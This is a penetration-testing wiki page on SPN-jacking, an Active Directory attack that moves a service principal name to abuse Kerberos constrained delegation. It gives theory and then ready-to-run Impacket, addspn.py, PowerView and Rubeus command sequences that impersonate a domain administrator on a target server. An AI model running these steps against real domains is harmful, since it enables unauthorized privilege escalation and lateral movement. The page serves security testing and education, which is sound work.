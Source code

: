 ```yaml
---
authors: ShutdownRepo, sckdev
---
```


# SPN-jacking

## Theory

This attack combines [Kerberos Constrained delegation abuse](delegations/constrained.md) and [DACL abuse](../dacl/). A service configured for Kerberos Constrained Delegation (KCD) can impersonate users on a set of services. The "set of services" is specified in the constrained delegation configuration. It is a list of SPNs (Service Principal Names) written in the `msDS-AllowedToDelegateTo` attribute of the KCD service's object.

In standard KCD abuse scenarios, an attacker that gains control over a "KCD service" can operate lateral movement and obtain access to the other services/SPNs. Since KCD allows for impersonation, the attacker can also impersonate users (e.g. domain admins) on the target services. Depending on the SPNs, or if it's possible to [modify it](ptt.md#modifying-the-spn), the attacker could also gain admin access to the server the "listed SPN" belongs to.

On top of all that, if attacker is able to move a "listed SPN" from the original object to the another one, he could be able to compromise it. This is called SPN-jacking and it was intially discovered and explaine by [Elad Shamir](https://twitter.com/elad_shamir) in [this post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/).

1. In order to "move the SPN", the attacker must have the right to edit the target object's `ServicePrincipalName` attribute (i.e. `GenericAll`, `GenericWrite` over the object or`WriteProperty` over the attribute (called `WriteSPN` [since BloodHound 4.1](https://posts.specterops.io/introducing-bloodhound-4-1-the-three-headed-hound-be3c4a808146)), etc.).
2. If the "listed SPN" already belongs to an object, it must be removed from it first. This would require the same privileges (`GenericAll`, `GenericWrite`, etc.) over the SPN owner as well (_a.k.a. "Live SPN-jacking"_). Else, the SPN can be simply be added to the target object (_a.k.a. "Ghost SPN-jacking"_).

## Practice

> [!TIP]
> In this scenario, we assume the Kerberos Constrained Delegation is configured [with protocol transition](delegations/constrained.md#with-protocol-transition) in order to keep things simple. However, the SPN-jacking attack can be conducted on [KCD without protocol transition](delegations/constrained.md#without-protocol-transition) as well (cf. [RBCD technique](delegations/constrained.md#rbcd-approach)).
> 
> In this scenario (following [Elad](https://twitter.com/elad_shamir)'s [post](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse/)):
> 
> * serverA is configured for KCD
> * serverB's SPN is listed in serverA's KCD configuration
> * serverC is the final target
> * attacker controls serverA, has at least WriteSPN over serverB (if needed, "live SPN-jacking"), and at least WriteSPN over serverC.

::: tabs

=== UNIX-like

From UNIX-like machines, [krbrelayx](https://github.com/dirkjanm/krbrelayx)'s [addspn.py](https://github.com/dirkjanm/krbrelayx/blob/master/addspn.py) and [Impacket](https://github.com/SecureAuthCorp/impacket) example scripts (Python) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).

> [!NOTE]
> _At the time of writing, 12th Feb. 2022,_ [_the pull request_](https://github.com/SecureAuthCorp/impacket/pull/1256) _adding the `tgssub.py` is pending._ [_The pull request_](https://github.com/SecureAuthCorp/impacket/pull/1184) _modifying the `findDelegation.py` is pending._
> 
> _At the time of writing, 12th Feb. 2022, this technique has not been fully fool-proofed from UNIX systems. In case something errors, switch to the Windows technique._

```bash
# 1. show SPNs listed in the KCD configuration
findDelegation.py -user 'serverA$' "$DOMAIN"/"$USER":"$PASSWORD"

# 2. remove SPN from ServerB if required (live SPN-jacking)
addspn.py --clear -t 'ServerB$' -u "$DOMAIN"/"$USER" -p "$PASSWORD" 'DomainController.domain.local'

# 3. add SPN to serverC
addspn.py -t 'ServerC$' --spn "cifs/serverB" -u "$DOMAIN"/"$USER" -p "$PASSWORD" -c 'DomainController.domain.local'

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
getST -spn "cifs/serverB" -impersonate "administrator" 'domain/serverA$:$PASSWORD'

# 5. Edit the ticket's SPN (service class and/or hostname)
tgssub.py -in serverB.ccache -out newticket.ccache -altservice "cifs/serverC"
```

Once the final service ticket is obtained, it can be used with [Pass the Cache](ptc.md) / [Pass the Ticket](ptt.md) to access the target.


=== Windows

From Windows machines, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) (PowerShell) and [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to conduct the different steps (manipulate SPNs, obtain and manipulate tickets).



```powershell
# 1. show SPNs listed in the KCD configuration
Get-DomainObject -Identity ServerA$ -Properties 'msDS-AllowedToDelegateTo'

# 2. remove SPN from ServerB if required (live SPN-jacking)
Set-DomainObject -Identity ServerB$ -Clear 'ServicePrincipalName'

# 3. add SPN to serverC
Set-DomainObject -Identity ServerC$ -Set @{ServicePrincipalName='cifS/serverB'}

# 4. request an impersonating service ticket for the SPN through S4U2self + S4U2proxy
Rubeus.exe s4u /nowrap /msdsspn:"cifs/serverB" /impersonateuser:"administrator" /domain:"$DOMAIN" /user:"$USER" /password:"$PASSWORD"

# 5. Edit the ticket's SPN (service class and/or hostname)
Rubeus.exe tgssub /nowrap /altservice:"host/serverC" /ticket:"ba64ticket"
```

Once the final service ticket is obtained, it can be used with [Pass the Ticket](ptt.md) to access the target.

:::


## Resources

[https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse](https://www.semperis.com/blog/spn-jacking-an-edge-case-in-writespn-abuse)
